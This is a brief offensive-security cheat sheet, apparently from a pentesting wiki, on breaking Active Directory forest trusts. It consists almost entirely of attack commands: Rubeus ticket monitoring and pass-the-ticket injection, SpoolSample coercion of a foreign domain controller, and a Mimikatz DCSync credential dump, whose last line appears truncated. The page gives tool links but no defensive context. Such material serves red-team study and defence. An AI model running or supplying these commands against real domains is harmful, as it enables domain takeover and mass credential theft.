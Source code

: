 # 🟢 Breaking Forest Trusts



<table><thead><tr><th width="166">Tool</th><th>GitHub</th></tr></thead><tbody><tr><td>Rubeus</td><td><a href="https://github.com/GhostPack/Rubeus">https://github.com/GhostPack/Rubeus</a></td></tr><tr><td>SpoolSample</td><td><a href="https://github.com/leechristensen/SpoolSample">https://github.com/leechristensen/SpoolSample</a></td></tr><tr><td>Mimikatz</td><td><a href="https://github.com/gentilkiwi/mimikatz">https://github.com/gentilkiwi/mimikatz</a></td></tr></tbody></table>

### Breaking Forest Trusts with Rubeus

```
Rubeus.exe monitor /interval:5 /filteruser:target-dc$
```

#### Inject the Ticket

```
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>
```

### Breaking Forest Trusts with SpoolSample

```
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local
```

### Breaking Forest Trusts with MimiKatz

```
lsadump::dcsync /domain:external.forest.local /allco
```
